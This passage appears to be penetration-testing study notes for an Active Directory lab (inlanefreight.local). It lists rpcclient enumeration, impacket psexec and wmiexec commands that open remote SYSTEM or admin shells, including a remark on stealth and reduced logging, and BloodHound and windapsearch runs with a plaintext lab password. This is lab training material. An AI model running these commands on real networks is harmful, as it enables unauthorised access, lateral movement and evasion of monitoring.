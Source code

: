 Administrators accounts will always have `500` or `0x1f4`
##### Query User By RID
```shell
queryuser 0x457
```
Enumerate all users 
```shell
enumdomusers
```
### #Impacket Toolkit
**Psexec.py**
Creates a remote service by uploading a randomly-named service in the ADMIN$ share on the target host. 
Registers the service via RPC and Window Service Control Manager. Once communication is established you get a remote shell as `system`
```bash
impacket-psexec inlanefreight.local/<user>:'<pass>'@172.16.5.125  
```

**wmiexec**
Commands are executed through [Windows Management Instrumentation](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). Does not drop any files or executables on the target host. Generates fewer logs than other modules. 
Runs as local admin user you connected with. More stealthy approach to execution on hosts than other tools. 
```bash
Impacket-wmiexec inlanefreight.local/<user>:'<pass>'@172.16.5.5  
```

**Windapsearch** 
Can use to enumerate users, groups, and computers from a windows domain utilising LDAP queries.

Domain Admins
```shell-session
Impacket-windapsearch --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```
Privileged Users
```shell
windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

### #Bloodhound
Can create graphical representations of data or "attack paths"
Uses [Graph theory](https://en.wikipedia.org/wiki/Graph_theory) to visualise relationships and uncover new attack paths. 
Consists of [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) collector
Can right custom queries in [Cypher Language](https://blog.cptjesus.com/posts/introtocypher/)
```shell
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all 
```
**Upload the Zip File to BloodHound GUI**
`sudo neo4j start`
***Unsupported Systems are really good for finding pivot points.***
## Credential Hunting from Windows
### Active Directory Power Shell Module 
Around 150 modules
**Installed**
```powershell
Import-Module ActiveDirectory
```
```powershell
Get-Module
```
**Get Domain Info**
```powershell
```